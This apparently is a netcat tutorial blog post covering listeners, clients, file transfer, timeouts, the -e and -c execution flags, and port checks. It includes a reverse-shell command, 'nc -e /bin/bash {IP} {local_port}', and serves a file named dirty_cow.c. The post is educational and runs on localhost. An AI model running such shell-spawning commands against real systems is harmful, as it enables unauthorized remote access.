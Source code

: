 ```yaml
---
title: "Netcat"
tags:
- network
- TCP connection
- remote shell
- bind shell
categories:
- tools
toc: true
toc_sticky: true
header:
    og_image: /assets/images/netcat/logo.jpg
---
```

![Domain](/assets/images/netcat/logo.jpg)

## Introduction
netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

It is generally used to test network connectivity on certain ports, or for reverse/bind shells.

## netcat as a server
Netcat can be used to start a server by telling it to listen on a certain port. By default, netcat server only allows a single client connection.

Command to tell nc to listen on a certain port:
```
$ nc -nlvp 65000
listening on [any] 65000 ...
```

`-n`: Use of this option means that hostname and port arguments are restricted to numeric values.

`-l`: Listen for an incoming connection rather than initiate a connection to a remote host.

`-v`: verbose output

`-p`: specify port on which to listen to

Whenever a client attempts connection to the port listened by netcat, following log can be seen:
```
$ nc -nlvp 65000
listening on [any] 65000 ...

connect to [127.0.0.1] from localhost [127.0.0.1] 37518
```

## netcat as a client
```
nc localhost 65000
```
When running the above command, netcat will try and connect to the host (which is `localhost` in this case) and port(which is `65000` in this case) specified. 

At this point, a TCP connection(default unless specified to establish UDP connection with `-u` flag) has been established between the client with some random temporal port and the local server with port 65000. 

**Whatever standard input that we give here, is `echo`ed in the server and vice-versa**.

Client side:
```
nc localhost 65000
Hello world!
```

Server side:
```
$ nc -nlvp 65000
listening on [any] 65000 ...

connect to [127.0.0.1] from localhost [127.0.0.1] 37518
Hello world!
```
## File transfer using netcat
We can use input redirection on server side instead of writing on the standard input and this can be used to transfer file as:
```
$ nc -lvnp 4444 < dirty_cow.c
listening on [any] 4444 ...
```
Whenever a client connects to it, they get the file as:
```
$ nc {host} 4444 > dirty_cow.c
```
We can also use input redirection on client side as:
```
$ cat hello.txt
Hello world!
$ nc localhost 65000 < hello.txt 
```
The contents of the file `hello.txt` gets echoed on the server side.

## netcat `-w` flag
By default, the connection is persisted infinitely unless the nc process is stopped either in the client side or on the server side. However, `-w` flag can be specified with the `{timeout_seconds}` which terminates the connection after that.

So, in case of listening,
```
nc -nlvp 65000 -w 40
```
will wait for connection initiation from clients until 40 seconds and if none are received, netcat stops listening:
```
nc -nlvp 65000 -w 40
no connection : Connection timed out
```
*Note: If the connection is initiated by the client within the timeout, the connection persists.*

## netcat `-e` flag
By default, netcat simply echoes whatever has been given to the standard input. However, we can tell netcat to execute certain files on the other side using `-e` flag.

>  `-e` {filename}:  specify  filename  to exec after connect (use with caution).\
                    See the -c option for enhanced functionality.

```
nc -e /bin/bash {IP} {local_port}
```
By default, the executable file is `echo` . But now, we have specified the file to be `/bin/bash`. So, when the connection establishes, the file is executed in the client. However, the output of the command is `echo`ed on the server side. And whatever command we write in the nc server gets executed in nc client bash shell and it's output is again echoed back to the server side.

![](/assets/images/netcat/netcat_-e_flag.PNG)

The left side shell shows the server side whereas the right side shows the client side. The left shell has been opened as a normal user `kali` on its home directory `/home/kali`. However, when executing the command `whoami` and `pwd` respectively on the left shell, the output is shown as  `root` and `/root` respectively, which is true for the right shell. 

*Note: Only **stdout** is `echo`ed on the server side. If there are any errors(**stderr**), they are printed on the client itself.*
![](/assets/images/netcat/netcat-stderr.PNG)


Similarly, we can also execute files in the server from client:

![](/assets/images/netcat/netcat_-e_flag_2.PNG)

**So, from the server we can execute commands on the client and vice-versa! This is how reverse shell and bind shell using netcat works.**


## netcat `-c` flag

>   `-c` {string}:  specify shell commands to exec after connect (use with  cau‐\
                    tion).   The  string  is passed to /bin/sh -c for execution.\
                    See the -e option if you don't have a working /bin/sh  (Note\
                    that POSIX-conformant system must have one).

![](/assets/images/netcat/netcat_-c_flag.PNG)

Similar to the `-e` flag, wherever(server-side/client-side) `-c` flag is specified, the bash command gets executed there.

## Testing connectivity:
The following command can be used to check if a server is listening on a certain port or not:
```
nc {host} {port} -vz
```
*Note: The server doesn't need to be started strictly using netcat*

`-z`:           zero-I/O mode [used for scanning]

```
# server is listening on port 65000
❯ nc localhost 65000 -vz                                                      
localhost [127.0.0.1] 65000 (?) open

# server is not listening on port 65001
❯ nc localhost 65001 -vz                                                       
localhost [127.0.0.1] 65001 (?) : Connection refused
```

## Reference
To get more information on different tips and tweaks that can be made, please refer to the [man page](https://man7.org/linux/man-pages/man1/ncat.1.html) of netcat.

Happy Hacking!